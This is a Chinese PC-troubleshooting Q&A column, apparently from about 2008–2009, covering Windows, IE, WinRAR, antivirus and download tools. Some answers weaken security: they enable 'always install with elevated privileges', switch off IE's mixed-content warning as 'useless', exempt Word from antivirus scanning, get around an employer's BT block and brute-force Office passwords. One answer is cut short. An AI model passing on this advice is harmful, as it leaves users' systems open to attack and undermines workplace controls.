问：朋友给我发了一幅图片，我想知道它的原始创建时间。我看图片属性的时候，创建时间是我保存到我电脑的时间。我想知道它的原始创建时间。请问怎样才能办到？

答：你的操作系统中只要安装了ACDSee软件，就可以直接使用ACDSee来查看图片属性，图片的原始创建时间也会清楚地显示出来。

### 使注释作为文件名

问：我使用FlashGet下载了一本书的各个章节，可是下载下来的文件名很乱。不知有没有什么方法可以批量更改下载下来的章节名？

答：一般的文件都有相应的注释，只要将注释作为文件名即可进行区分了。下载完成后，你可以在FlashGet中找到列表中相应的文件，用鼠标右键单击文件，在弹出的右键菜单中依次选择“重命名→注释作为文件名”即可。如果没有注释的话，那你只好一个一个的去更改名字了。

### 截取多幅图片时只开一个窗口

问：我使用Hypersnap截取图片，在截取了一张图片之后，后面截取的图像就会一个个创建新的窗口，使新窗口不停地增加。请问如何能不这样出现新窗口？

答：其实你完全可以使用新截取的图片替换当前的图像。操作方法如下：

- 启动Hypersnap，依次选择主菜单中的“捕捉→捕捉设置”。
- 然后切换到“查看和编辑”选项卡，在“使用新的捕捉替换当前窗口的图像”前打上对钩即可。

### EXE文件运行不了

问：我在用“卡巴斯基”杀毒软件杀毒后，再打开任意一个EXE文件时都会弹出“选择打开方式”的提示。请问如何解决这个问题？

答：解决方法如下：

- 重新启动电脑后按F8进入带命令提示行的安全模式。
- 执行命令：`assoc .exe=exefile` 注意：assoc与.exe之间有一空格，屏幕显示“.exe=exefile”。
- 关闭命令提示符窗口，按Ctrl+Alt+Del组合键调出“Windows安全”窗口，按“关机”按钮后选择“重新启动”选项，按正常模式启动后，所有的EXE文件就都能正常运行了。

### 用其他软件接收Hotmail邮箱是否会被锁定

问：我有一个Hotmail邮箱，一次外出后，大概有一个多月没有打开该邮箱，当再次打开时发现邮箱被锁定了，于是按照提示对其解锁。我现在经常使用Outlook收取Hotmail邮箱中的信件，而不直接登录邮箱页面，不知这样会不会再次被锁？

答：Hotmail邮箱如果30天不登录，确实会被锁定，而你使用Outlook收信。

### 去掉MP3歌曲中歌手的声音

问：有一首MP3歌曲，我想将歌手的声音取消，只留背景音乐。请问如何才能实现？

答：使用Adobe Audition软件就可以实现去掉人声的目的。不过这样处理的效果也并不是非常理想，建议你到一些音乐站下载相应歌曲的伴奏曲文件。

### “特快专递”让邮件不再丢失

问：我感觉使用电子邮件联系别人是非常方便快速的，但有时也会出现邮件明明发出去了，但对方就是收不到的情况。请问遇到这样的问题应该怎么办？

答：你可以使用Foxmail邮件处理软件提供的“特快专递”功能解决这个问题。具体步骤如下：

- 因为邮件“特快专递”功能需要调用域名服务器（DNS）来查询收件人邮箱对应的IP地址，所以必须在系统中填写域名服务器地址。你可以在系统桌面上用鼠标依次选择“开始→程序→附件→命令提示符”，在弹出的CMD窗口中输入ipconfig /all并按回车键，得到DNS Server值。
- 打开Foxmail，依次选择“选项→系统设置”。
- 在弹出的对话框中单击“邮件特快专递”选项卡，在“域名服务器1”和“域名服务器2”中分别填写DNS地址。
- 单击工具栏上的“撰写”按钮，打开“写信件”窗口，写完信件后，单击一下工具栏上的“特快专递”按钮即可。

注意：在使用“特快专递”功能时只能将邮件发给一个人，因此在收信人处只能填写一个地址。

### 文件关联被损坏

问：我在系统中安装了“千千静听”播放软件，但是在双击MP3文件后却显示找不到“千千静听”，请问这是什么问题呢？该如何解决这个问题？

答：出现这个问题的原因是“千千静听”的关联文件被损坏，使被打开的MP3文件找不到“千千静听”。解决这个问题是使用“完美卸载”或者“Windows优化大师”之类的系统清理软件清理注册表，然后重新安装软件即可。

### 不让数码照片泄密

问：我用数码照相机拍摄了很多照片，在电脑上浏览这些照片时发现拍摄日期等信息都可以随意被人看到。请问怎样才能让别人看不到照片的拍摄信息？

答：数码照片的拍摄日期等相关参数保存在照片的EXIF信息表中，你可以通过“光影魔术手”这个软件来删除这些信息。具体步骤如下：

- 从华军软件园网站下载“光影魔术手”软件，安装并运行软件。
- 在窗口上方的菜单栏中用鼠标依次选择“文件→批处理”命令或者按下Ctrl+B组合键。
- 在“照片列表”选项卡下添加所有欲删除EXIF信息的照片文件，再切换到“输出设置”选项卡下。
- 根据格式点击“JPEG选项”，在弹出的窗口中勾选“删除EXIF信息”，点击“确定”按钮退出设置后即可实现批量删除照片信息。

### 拒绝压缩包中的无用文件

问：我经常从网上下载一些软件或者各种学习资料，而这些资源一般都被压缩成RAR或ZIP格式的压缩文件。但是当我解压这些压缩文件时，发现里面会出现一些诸如htm、url等格式的文件，这些文件一般是网站的广告。请问怎样才能在打开压缩文件时就将它们清除掉呢？

答：建议你使用WinRAR压缩软件，在该软件中设置一下就可以达到目的，具体步骤如下：

- 启动WinRAR软件，在WinRAR的主界面中用鼠标依次选择“选项→设置”。
- 打开“设置”窗口并切换到“安全”选项卡。
- 在“设置”窗口的“安全”选项卡中，先勾选“解压时排除的文件类型”复选框，然后在它下面的文本框中输入“*.lnk、*.txt、*.htm、*.html、*.url”等解压文件时需要排除的文件类型，最后单击“确定”按钮。

注意：输入垃圾文件名时，每一个扩展名前面要加“*”，扩展名与扩展名之间要用空格隔开。

### 当心电脑把你骗了

我们知道，使用Word进行文字处理时，在“查找栏”输入你要删除的字符，“替换栏”什么也不要输，单击“全部替换”就可以删除文档中符合条件的字符。前几天，我的电脑却像得病一样“罢工”了，尽管屏幕显示“已进行了N次替换”，但要删除的字符还是好好地呆在那里。

经过反复测试，发现情况是这样的：如果在删除字符前使用替换功能进行某些字符高级格式的设置（如把某些字符的格式设置为“上标”），那么再进行某些字符的删除操作时就会出现问题，如果没有的话，则可以删除成功。而这两种情况下查找替换对话框所显示的内容是完全相同的；令人费解的是：“Ctrl+A”全选后进行复制，退出Word，再启动，执行“粘贴”命令后，再使用替换方法删除某些字符却可以顺利完成。如此反复试验了几次后，我怀疑是Word版本问题，测试Word 2003上述问题依旧存在，本想再测试一下Word 2007，但由于笔者电脑的操作系统是Windows Server 2000，版本太低而暂时放在一边。我借培训之机咨询了几位微机教师，他们也觉新鲜。几天后，我无意中点击了一下以前从没用过的“不限定格式”按钮，尽管替换对话框内显示内容还和以前一样，但删除操作却可以顺利完成了。

文/吴廷永


### 快车下载出现续传错误

问：我在快车中批量添加了一批下载任务，而直接将下载的文件存放在局域网上的另一台电脑的硬盘中。由于下载过程中这台用来存储下载文件的电脑突然重启，造成正在下载的列表不能再续传，而列表中其他尚未下载的文件均能正常下载。我尝试将不能继续下载的任务重新下载，但仍然发生错误。请问这该如何解决？

答：打开快车，在左侧的“正在下载”窗格中用Ctrl键或Shift键配合鼠标点击或拖动的方法选择所有发生错误的任务，然后从“文件”菜单中选择“导出列表”，将这些不能下载的任务保存在一个列表文件中，接下来删除“正在下载”列表和“已删除”列表中的这些错误文件记录，最后再从“文件”菜单中选择“导入列表”，导入刚才保存的列表，执行下载命令即可正常下载了。

### 找回IE桌面图标

问：我安装的是Windows XP SP3系统，在桌面上没有IE图标，安装了IE8.0后仍不在桌面显示IE图标，像以前那样在桌面属性中设置也没有IE选项了。请问，如何才能将IE图标放到桌面？

答：这是由于微软为了处理反垄断方面问题而导致的，可以手工将IE图标放到桌面：

方法一：在硬盘中任意位置新建一个文件夹，再将其重命名为“Internet Explorer.{871C5380-42A0-1069-A2EA-08002B30309D}”，然后直接将该文件夹用鼠标左键拖放到桌面，稍后就会看到桌面上的IE图标重新显示出来了。

方法二：借助TweakUI软件来实现：

如果还没有安装，请先从http://www.newhua.com/soft/26929.htm下载并安装该小工具，运行后在左侧列表中找到“桌面”项，在右侧就会出现桌面图标设置界面，勾选“Internet Explorer”项即可让IE浏览器图标重新显示在桌面了。



方法三：直接右击桌面并选择“属性”，在打开的设置页面中选择、“桌面”标签，单击“自定义桌面”按钮，在打开的窗口中直接按下“Alt+I”组合键，保存设置后即可看到桌面上的IE图标了。这主要是由于系统隐藏了IE选项设置，而其快捷键“Alt+I”直接调用完成设置。

### 使用迅雷后就无法打开网页

问：刚下载安装了迅雷下载工具，只要一开启迅雷并进行下载，浏览器就无法打开网页。请问这是什么原因？

答：这主要是迅雷下载将所有的网络带宽占用完而导致的，只要在迅雷的参数设置中限制下载速度即可解决问题：打开迅雷后单击菜单“常用设置→速度限制”，在打开的设置窗口中勾选“将下载速度限制为”及“将上传速度限制为”两个选项选中，然后再将速度设置低一些。例如使用1MB的ADSL时，将速度设置为100KB/s或更低，网速快的环境下相应地将下载、上传速度设置快些。



### 让电驴与快车共存

问：我平时用的下载工具为电驴与快车，普通下载与BT下载我用快车进行下载，ed2k的下载我用电驴下载。以前两者一直相安无事，但当我将快车升级到V3.0后，点击网页中的ed2k链接时，电驴就跳不出来了，而快车却自动跳出来。我希望下载ed2k链接时启动电驴。请问这该如何设置？

答：先打开快车，单击“选项→下载设置→eMule”，在右侧窗口中取消选择“连接eD2K网络”及“连接Kad网络”这两项，保存设置。接下来再打开电驴并重新关联一下ed2k下载即可。

### IE下载不提示保存

问：我在Windows XP SP3中安装了IE7浏览器，不知道什么原因只要从网上下载ZIP格式的压缩包文件，系统就会直接将其打开而不像以前那样提示保存。请问如何设置才能让IE下载时提示保存？

答：这个问题很好解决：打开“我的电脑”，单击菜单“工具→文件夹选项”，在列表中找到“ZIP”项，单击“高级”按钮，在打开的窗口中将“下载后确认打开”项选中，单击“确定”按钮即可。



如果IE在下载其他格式的文件时也有类似的问题，只要按照同样的方法进行一次设置即可解决问题。

### IE8中显示的网页按钮为何特别小

问：通过系统升级功能将IE浏览器升级到最新的IE8版本，但在实际使用过程中发现，很多网页上的按钮（例如Google的搜索按钮）变得特别小，上面的字都看不到。请问这该如何解决？

答：这种故障一般发生在Windows Vista系统中，在Windows Vista环境下使用了特定的主题后就会出现这种情况，如果你不想更换为默认主题，可以通过下面的方法来变通地解决问题：打开IE8，单击菜单“工具→Internet选项”，在打开的设置窗口中选择“高级”选项卡，取消选择“对网页上的按钮和控件启用视觉样式”项，最后保存设置即可。



### 如何突破BT下载的封锁

问：我们单位最近将BT端口封了，导致现在无法下载BT资源，请问有没有什么方法可以突破BT下载的封锁？

答：要想突破BT的封锁，可以使用一些将BT下载转换成HTTP下载的网站，直接将BT下载链接转换成HTTP下载链接，然后便可通过常用的下载工具来下载了。例如http://www.ppscity.com/就可以帮助你在封锁BT下载的环境下下载BT资源。

### 无法使用摄像头聊天

问：我从超级兔子官方网站下载“驱动天使”，用其更新了驱动程序，结果导致现在的摄像头无法使用，打开聊天窗口看到的是黑屏。请问如何解决？

答：这可能是升级安装的驱动程序版本不正确而导致的，只要在设备管理器中将驱动程序回滚到之前的版本即可：右击“我的电脑”并选择“属性”，选择“硬件”，单击“设备管理器”按钮，在设备列表中找到摄像头对应的项目并右击，选择“属性”，在打开的窗口中选择“驱动程序”选项卡，再单击“返回驱动程序”按钮即可回滚到更新之前的驱动程序版本了。此外，直接将摄像头驱动程序删除，然后再重新手工安装一遍驱动程序也可解决问题。

### Firefox无法打开HTTPS网页

问：刚将Firefox升级到V 3.0，打开其他页面一切正常，但当打开网址以HTTPS开头的网页时就会出现错误，提示：Secure Connection Failed The certificate will not be valid until 7/19/2008 9:00AM。请问这该如何解决？

答：Firefox浏览器会自动检查HTTPS页面的数字证书有效期，而你访问的HTTPS页面的数字证书有效期与本地电脑时间不一致就会出现上述错误，而最主要的原因一般都是由于本机系统时间不正确而引起的，只要检查并重新设置本机系统的日期、时间即可解决问题。

### UUCall不能打国际电话

问：我一直使用UUCall打电话，最近有一个朋友出差到国外，我尝试使用UUCall给他打电话，但总是不能成功，而打国内电话可以正常通话。请问这是什么原因？

答：这是因为UUCall在默认设置下将国际电话拨打功能禁用了，要想拨打国际长途电话，只要手工将其开启即可：单击主窗口中的“设置”，在打开的设置窗口中选择“一般设置”，在右侧窗口中勾选“允许拨打国际电话”选项，保存设置即可。



### 浏览网页总是显示安全警告弹出窗口

问：在原IE7的基础上升级到最新的IE8浏览器，在平时打开网页时，每当打开HTTPS页面时，浏览器总会弹出“安全警告”窗口，必须点击“否”才能打开目标页面。请问如何设置不让该提示窗口弹出？

答：这是IE的一项安全提示功能，没有实际用途。如果你不想弹出这个警告窗口，只要直接在参数设置中将其关闭即可：打开IE浏览器，单击菜单中的“工具→Internet选项”，在打开的设置窗口中选择“安全”选项卡，单击下方的“自定义级别”按钮，在“其他”项目中找到“显示混合内容”，将“显示混合内容”从默认的“提示”设置为“启用”即可。



### 淘宝旺旺为何不能自动启动

问：我已经安装了淘宝旺旺，但是在淘宝网中点击卖家头像图标时却总是重新打开一个浏览器页面，显示在线版淘宝旺旺聊天页面。请问如何让浏览器自动启动淘宝旺旺来进行聊天？

答：这可能是你的浏览器或是安装的插件拦截程序将淘宝旺旺的浏览器插件拦截掉而导致的，如果安装的是插件拦截程序，请在这些程序中重新放行Alibaba相关的所有插件即可，以后在浏览器中点击聊天链接时就会自动启动淘宝旺旺。如果你使用的是IE及使用IE内核的浏览器（例如Maxthon），只要直接在IE中进行设置即可：单击IE菜单“工具→Internet选项”，在打开的设置窗口中选择“程序”选项卡，单击“管理加载项”，选择“所有加载项”，在插件列表中找到Alibaba相关的插件并重新启用即可。

## WinRAR为何不能解压缩4GB以上文件

问：我用WinRAR解压缩大于4GB的文件时，WinRAR总是说只有NTFS文件系统才支持大于4GB的文件。请问这是什么原因？

答：这个问题与WinRAR本身没有任何关系，而是由于FAT32格式的磁盘格式下，系统不能识别4GB以上的文件，而NTFS格式的磁盘分区则无此限制。因此，当需要经常操作大文件（超过4GB以上）时，需要在NTFS格式的磁盘中进行，此外，NTFS格式的磁盘分区的安全性比FAT32要强，建议将磁盘分区转换成NTFS格式，方法也不难：按Win+R打开运行对话框，输入“cmd”并回车，在打开的命令提示符窗口中输入“convert 盘符 /FS:NTFS”并回车即可将目标磁盘转换成NTFS格式了。

## WinRAR为何不能直接打开文件

问：在WinRAR中，点击压缩包里的文件时，WinRAR都会使用它自己的查看器来打开程序，除了TXT文件能正常阅读，DOC、JPG等很多文件都不能正常打开，变成乱码。必须先将文件解压出来才能正常打开。而以前只要双击其中的文件，WinRAR就会自动使用相应的应用程序来打开。请问这是为什么？

答：这是因为你设置了使用WinRAR的查看器。你可以打开WinRAR，点击“选项→设置”，在“查看器”标签页的“查看器类型”框中，选中“关联程序”选项即可解决问题。

## 如何找回丢失的办公文档密码

问：之前有几篇重要的Word文档和Excel电子表格，为了安全起见，对它们分别设置了密码。时间长了，现在竟然连自己都记不起来了。请问，有没有什么办法找回遗忘的文档密码？

答：只要从http://www.onlinedown.net/soft/37776.htm下载这款名为“Advanced Office Password Recovery”就可以解决问题。该软件提供了对Office文档添加的密码的破解，运行后直接通过“打开文件”按钮将要破解的Office文档打开，然后通过暴力破解方式进行破解，根据密码复杂度的不同，破解所花费的时间也长短不一。

## Total Commander不能为文件改名

问：我使用Total Commander替代系统资源管理器，其他方面使用一切正常，但是在使用F2快捷键对文件进行改名时总是不能成功。请问这是什么原因？

答：这是因为Total Commander对虚拟文件的支持不好导致的，你可以锁定桌面的文件夹desktop来解决问题。具体方法：打开Total Commander，在“工具栏”上单击“切换到常用工具栏”按钮，找到桌面按钮，鼠标右键单击它，选择“更改”命令打开“更改工具栏”对话框，将“命令”栏里的内容更改为“cd %$DESKTOP%”，然后单击“确定”按钮即可。

## 搜狗拼音为何无法打出“囧”、“槑”

问：我安装的是最新版的搜狗拼音输入法，我想输入“囧”、“槑”这类网络流行字时，总是无法实现。请问这是什么原因？

答：这主要是你的搜狗拼音输入法没有设置大字符集汉字词库，只要重新设置一下即可：右击输入法状态图标并选择“设置→词库→大字符集汉字（GBK）。”这样就能正确地输入这类冷僻字了。

## 搜狗输入法为何不能自定义 # 开头的短语

问：我使用的是搜狗输入法，在进行自定义短语时，总是不能定义类似梦幻西游表情中的#开头的短语。请问如何才能定义#开头的短语？

答：#是搜狗自定义短语里调用函数的关键字，要定义#打头的短语时需要使用两个#进行转义。

## 万能五笔不能输入汉字

问：一直使用万能五笔输入法，感觉好用，非常喜欢。今天我在电脑上安装了PC Tools Firewall Plus防火墙，重启电脑后，万能五笔不能用了。文字输入框倒是出来了，但是打不出汉字来。请问这该如何解决？

答：万能五笔外挂版与传统的内置版输入法不一样，它是一个独立的程序，需要获取键盘才能够正常输入汉字。在安装PC Tools Firewall Plus后，它会提示万能五笔使用了键盘钩子，如果你按了不允许，那万能五笔没法得到键盘事件就无法打字。现在您打开PC Tools Firewall Plus，点击“应用程序”，选上万能五笔相关项并删除，再启动万能五笔时系统会弹出提示，只要直接选择允许即可。

## 金山词霸翻译结果中显示乱码

问：我使用金山词霸在翻译单词时，翻译结果中总是显示乱码。请问这是什么原因？

答：金山词霸中音标出现乱码现象是由于Windows不能调用到词霸安装目录中的音标字体“ksphonet”而造成的，所以有两种解决方法：

+   1) 将词霸安装目录中的“ksphonet”文件安装到系统字体文件夹fonts中。具体操作是：打开C:\Windows\Fonts文件夹，单击菜单“文件→安装新字体”，将“ksphonet”字体安装到系统中。
+   2) 删除Fonts文件夹中的“ksphonet”字体，重新启动计算机，金山词霸会自动调用安装目录中的字体备份。

## 如何找回WinRAR的右键操作菜单

问：系统感染了病毒，之后我使用杀毒软件进行了一次清理操作，重新启动系统后发现鼠标右键菜单里的WinRAR选项不见了。现在，使用WinRAR压缩和解压非常麻烦。请问，有没有什么修复方法？

答：打开WinRAR程序，单击菜单“选项→设置”，在打开的设置窗口中选择“综合→关联菜单项目”，在打开的窗口中将相应的选项选中，单击“确定”保存设置即可。而像WinRAR这样小的软件出现故障后直接重新下载、安装，问题的解决速度往往会更快。

## PowerPoint 2007中总是不能输入中文

问：我安装的是Windows XP SP3，同时也安装了中文版的Office 2007，但是在使用PowerPoint 2007时总是无法输入中文汉字。请问这是什么原因？

答：可以按照下述步骤来解决：

首先，检查输入法高级文字是否被关闭，如果被关闭请将其打开：打开控制面板，双击“区域和语言选项”，在打开的窗口中选择“语言”选项卡，单击“详细信息”按钮，在打开的窗口中选择“高级”选项卡，取消选择“关闭高级文字服务”项，保存设置。此外，还要检查语言设置项是否设置成简体中文，如果不是，请将其重新更改为简体中文。

## 如何打开大体积DOC文档

问：使用Word编写了一篇文档，由于文档中插入了大量图片导致整个文档体积达到600MB之多，关闭后就无法打开了，Word总是提示内存不足，从Word 2003换到Word 2007也不能解决问题。请问如何才能打开这篇大体积的文档呢？

答：文档太大，打开时需要的物理内存多，而实际的物理内存不够使用而导致无法打开。有条件的话可以找一台物理内存大的电脑打开文档，然后在Word中将文档分成多个文件保存，或者使用Open Office ( 下载地址：http://download.openoffice.org/index.html ) 来打开，打开后再拆分成多篇小文档，之后就可以使用Word正常打开了。在使用Word编辑文件时，如果需要插入很多图片，尽量使用链接的方式将图片链接到文档中，这样就不会因为图片多而影响文档的体积。

## 如何让EditPlus显示大字体

问：刚安装了EditPlus，用其打开文档后发现字体特别小，在参数设置中已经设置了字体，但下次重新启动后又会显示很小。请问如何才能让EditPlus打开的文档字体显示正常？

答：在设置时可能是通过菜单“工具→首选项”来设置的，正确的设置方法：单击菜单“文档→固定设置值”，在打开的设置窗口中选择“常规→字体”，直接将字体设置为“宋体”，将字号设置为“10”或更大，保存设置即可。

## 如何保存同花顺设置

问：之前安装了同花顺软件，费了很多时间将其设置成自己喜欢的风格，现在需要重新安装系统。请问如何才能保存这些设置参数免得重新安装后的重复设置？

答：在同花顺安装目录中有一个与你的登录账号名同名的文件夹，直接将此文件夹备份起来，等重新安装好系统并安装好同花顺软件后直接将该文件夹拷贝到安装目录下，重新启动同花顺就可以直接应用之前的设置参数了。同花顺软件本身就是绿色软件，直接将同花顺软件的安装目录备份起来，重新安装系统后便可直接启动同花顺软件了。

## Word文档不能另存为PDF

问：系统中安装的是Word 2007，以前可以正常地将文档保存为PDF格式，但自从安装了卡巴斯基2009后，在Word中将文档保存为PDF格式时，系统总是提示另一个程序正在调用。关闭卡巴斯基后就可以正常保存了。请问这该如何解决？

答：这是因为卡巴斯基开启了主动防御功能，开启该功能后没有将Word添加到信任区域。解决方法：直接关闭卡巴斯基的主动防御功能，如果不想关闭，只要按下述方法将Word 2007添加到信任区域：打开卡巴斯基的主界面，选择“设置→威胁和排除→信任区域”，直接将需要运行的程序 ( Word.exe ) 添加进去，将“不扫描打开的文件”、“不监控应用程序活动”、“不扫描网络流量”三个选项选中即可。

## 设置了排除后小红伞仍然报毒

问：我已经将一个文件夹添加到了小红伞的排除列表中，但是小红伞仍频频检测并报毒。请问这是什么原因？

答：现在小红伞只支持以Unicode编码的完整文件路径的排除，也就是说涉及到的每个目录中的中文字符都必须是以Unicode编码的，否则不予支持。出现的这个问题可能是由于排除的目录名称中含有非Unicode编码的字符，只要将这个文件夹对应的路径重新使用Unicode编码规范的字符进行命名，再将其添加到排除列表中即可。

注：使用搜狗拼音输入法、微软拼音输入法进行输入的字符都符合Unicode编码规则。

# ## 为何无法搜索到部分文件

问：我的硬盘容量是160GB，平时的工作文档、电影、游戏、图片等文件已经占用掉了近130GB的空间。为了方便查找文件，我在系统中安装了Google桌面搜索工具。已经完成了文件索引，但是还有很多文件总是无法通过它找到。请问这是什么原因？

答：Google桌面对文件索引时，在每个磁盘中只能支持100000个文件的索引，而当磁盘中保存超过100000个文件，第100001及以后的文件都无法被索引，因此也就无法被搜索到。出现这种情况后，除了将某块磁盘中的文件移到其他分区外，或者手工打开这些没被索引的文件，Google桌面将会通过实时索引的方法将其添加到索引数据库中。Google桌面不支持搜索隐藏文件夹中的文件，请检查没被索引到的文件是否为隐藏文件。

# ## 安装Office出错

问：我在安装Office时，系统总是提示Windows Installer错误，并说“系统管理员设置了系统策略，禁止进行此安装。”请问这是什么原因？

答：只要按Win+R打开运行对话框，输入regedit并回车打开注册表编辑器，依次找到“HKEY_CLASSES_ROOT\Installer\Products\4080110900063D11C8EF10054038389C”项，然后直接将此项目删除即可。此外，还可以通过组策略来解决问题：在运行对话框中输入gpedit.msc并回车打开组策略编辑器，再依次选择“用户配置→管理模板→Windows组件→Windows安装服务”，将“禁止从媒体安装”设为“禁用”，将“永远以高特权进行安装”设置为“启用”，最后保存设置即可。

# ## 如何解除卡巴斯基对正常软件的封堵

问：安装的是卡巴斯基安全套装杀毒软件，第一次安装后每次运行一款软件后卡巴斯基都会询问是否禁止该软件，经常因为误点击而阻止了应用程序，之后该应用程序便无法正常访问网络。请问，在阻止了某个应用程序后，如何才能重新放行该程序？

答：出现这种情况很好解决，例如以傲游浏览器为例：右击托盘区卡巴斯基程序图标并选择“设置”，在打开的程序设置窗口中选择“保护→防火墙”，再单击“过滤系统”下的“设置”按钮，在打开的窗口中选择“程序规则”选项卡，找到Maxthon.exe项并将其删除即可。之后运行傲游浏览器时，卡巴斯基会再次弹出询问窗口，允许其访问网络即可。其他程序的设置方法类似。

# ## 小红伞出现误报的解决方法

问：我现在使用的是小红伞杀毒软件，但在平时使用的过程中误报现象特别严重，请问，如果已经判断出小红伞的误报，如何将被误报的对象排除掉，下次不再被报毒？

答：红伞误报的解决主要是两个步骤，首先在监控中排除误报：打开红伞设置，启用Expert Mode(专家模式)，进入Guard(监控)的Exception(例外)选项卡，在“File objects to be omitted for the Guard(监控忽略的文件)”一栏，在空白处输入被误报文件的完整路径，或者点“...”打开文件目录树浏览定位到被误报的文件，然后再点“Add>>(添加)”键，最后点击“OK”按钮。接下来，待升级解决误报后，再到Guard的Exception选项卡中将之前添加的文件从列表中删除即可。

# ## 360安全卫士无法开启保护功能

问：我安装的是最新版的360安全卫士，但每次启动系统时不能自动启动360的安全保护功能，而当手工开启时提示自我保护初始化失败。请问这该如何解决？

答：这可能是系统中感染了比较厉害的病毒或是木马而破坏了360安全卫士的相关组件。出现这个问题后，先从http://www.360.cn/killer/360compkill.html下载最新版的“360顽固木马专杀大全”程序，对系统进行通体杀毒，之后再重新安装一遍360安全卫士一般能解决问题。

# ## 优盾不能正常使用

问：之前一切正常，当我使用了优化大师的后台优化功能后优盾就不能使用了，提示找不到卡片，但插上其他USB设备可以正常工作。请问这该如何解决？

答：打开优化大师的后台服务优化项，单击“设置向导”，在打开的向导窗口中选择“自定义设置”，其中有一项“我要在这台机器上使用U盾”项，将其勾选，这样优化后就不会将优盾禁用了，优盾也自然就能正常工作了。

# ## 找回超级兔子伪装的文件

问：之前我使用超级兔子的伪装功能将一个文件进行了伪装，今天打开电脑后发现之前伪装的文件夹全部消失了。请问如何打开那些伪装过的文件？

答：打开超级兔子，在功能面板中重新打开“简易的文件加解密功能”，单击“伪装文件夹”，单击“装入文件夹”，选择伪装文件夹，加载到列表后，再单击“取出文件夹”，单击“下一步”即可解除伪装，之后便可正常打开被伪装过的文件了。

## 瑞星监控小红伞消失了

问：系统是Windows XP SP3，杀毒软件是瑞星2009，开机后发现一直运行在系统托盘区中的瑞星监控小红伞消失了，手工启动瑞星程序也不行。请问这该如何解决？

答：这种情况可能是软件异常或者病毒问题造成的。解决方法：升级杀毒软件然后修复杀毒软件一般即可解决问题，如果仍不行，请按下面步骤进行解决：

按Win+R打开运行对话框，输入“services.msc”并回车打开服务管理器，找到“Rising RealTime Monitor”这个服务并手动开启这个服务，最后升级病毒库并进行全盘杀毒应该可以解决问题。现在有很多病毒可以直接先破坏掉系统中安装的杀毒软件，让杀毒软件无法运行，然后在系统无杀毒软件的防护下再进行破坏。遇到这种病毒时，如果还能上网，不妨先使用在线版杀毒软件进行查杀，例如江民在线杀毒（地址：http://pay.jiangmin.com/online/jiangmin/kvkillonline.aspx）、安博士（地址：http://www.ahn.com.cn/aspservice/myv3.jsp）。查杀完毕后再将原先安装的本机杀毒软件更新到最新版，再对系统进行一遍病毒清杀。

## 禁止NOD32在邮件中添加信息

问：系统中安装了NOD32，收、发邮件使用Foxmail，使用Foxmail收到的很多邮件的末尾都被添加了很多英文信息，而关闭NOD32后收取的邮件中就没有这些信息了。请问如何禁止NOD32在邮件中添加信息？

答：这是因为NOD32中开启了邮件防护，而被添加了信息的邮件可能有问题，譬如附件中含有不安全的可疑文件，这时NOD32就会在这封邮件末尾添加标注信息。如果想禁止NOD32的这项举措，只要按下述方法设置一番即可：右击托盘区中的NOD32程序并选择设置项，在打开的设置窗口中选择“病毒和间谍软件防护→电子邮件防护”，在右侧窗口中即可进行设定了，直接取消选择“在已接收并阅读的被感染电子邮件主题中添加标记”和“在已发送的被感染电子邮件的主题中添加注释”两项，最后保存设置即可。

## 嗅探工具不能正常使用

问：想将网页中的在线视频下载到本地，于是就下载了“flv视频地址嗅探器”，但在使用时NOD32总是报其为病毒并进行隔离，导致无法正常使用。请问这该如何解决？

答：所有的视频嗅探工具在工作时都是从底层直接抓取数据包，与很多病毒的工作原理相似，因此，多数杀毒软件会将其判断成病毒而将其隔离或是直接删除。在杀毒软件中通过设置将嗅探工具添加到过滤列表中即可解决问题。在NOD32中将其添加到免查杀列表：打开设置，选择“高级设置”，然后直接将该小工具添加到排除列表中，接下来再从隔离区域中恢复被隔离的文件即可。

## 播放画面颠倒后如何修复

问：我使用的是暴风影音播放器，在播放一些AVI格式的电影时，播放画面呈现上下颠倒状态，请问这该如何解决？

答：如果该视频有外挂字幕，请利用VSFilter的设置功能，在任务栏的绿色箭头上单击右键，选择“翻转图像”即可。如果该视频没有外挂字幕，可以通过在VSFilter设置程序中的“常规”项，将载入方式设为“始终载入”来强行启动VSFilter。此外，在没有外挂字幕的情况下，也可通过在暴风影音综合设置程序的“MPEG-4 解码选项”功能组中对FFDShow“启用raw视频解码”功能，播放时在FFDShow的任务栏图标上单击右键，选择“翻转”即可，直接被FFDShow支持的格式无需Raw视频支持亦可实现此功能。

## 禁止Stormliv.exe自动运行

问：我已经使用360安全卫士将开机运行的程序统统删除掉了，但是每次开机时在进程列表中仍有一个名为“stormliv.exe”的进程。请问如何彻底取消该进程自动运行？

答：这是暴风影音播放器的升级服务程序，如果你不想卸载暴风影音播放器，可以这样来解决：按Win+R，在打开的运行对话框中输入“services.msc”并回车打开服务管理器，找到Stormliv.exe服务并将其设置成手动或禁用即可。

## PPStream为何不能全屏看节目

问：最近一直使用PPStream看电影，但在播放时不管如何设置都不能进入全屏播放模式，由于显示器本身比较小，再不能全屏，看起来很不过瘾。请问，如何才能让PPStream全屏播放？

答：这主要是系统中的硬件加速没有开启而引起的，只要手工按照下面的方法分别开启视频加速及硬件加速即可解决问题：

+   1. 打开Windows Media Player播放器，单击菜单“工具→选项→性能”，在“性能”选项卡中的“视频加速”区域中将滑块向右拖动至“全”，单击“确定”保存设置。
+   2. 在桌面空白处右击，选择“属性”，在打开的显示属性窗口中选择“设置”选项卡，单击“高级”按钮，在打开的窗口中选择“疑难解答”选项卡，将“硬件加速”滑块拖动至“全”，单击“确定”保存设置。

## 如何取消千千静听自动隐藏窗口

问：我安装了千千静听播放器，但是每次启动时它都会自动最小化窗口，播放歌曲时又必须得再重新打开播放窗口。请问，如何设置才能取消千千静听启动时的自动隐藏？

答：只要右击千千静听播放器主窗口并选择快捷菜单中的“千千选项”，在打开的设置窗口中选择“常规”项，接下来在右侧设置窗口中取消选择“启动播放器后最小化”项即可。

## 关闭Vista的系统还原功能

问：刚配的电脑，电脑公司为我安装了Windows Vista系统，设置了系统还原功能，我现在想将其关闭掉，但Windows Vista下的操作方法与Windows XP不一样，摸索了半天仍没有解决。请问，如何才能将Windows Vista系统的系统还原功能关闭掉？

答：Windows Vista系统中关闭系统还原功能，虽然方法与Windows XP有些不一样，但方法仍很简单：
- 在控制面板中打开“备份和还原中心”。
- 选择“创建还原点或更改设置”。
- 之后在弹出的“系统属性”对话框中的“系统保护”选项卡下的“自动还原点”栏可以看到已经选中的磁盘上的还原点。
- 去掉已有还原点前面复选框的钩，弹出对话框询问是否需要关闭系统还原。
- 直接选择“关闭系统还原”即可。

## 如何让自制的DVD拥有播放菜单

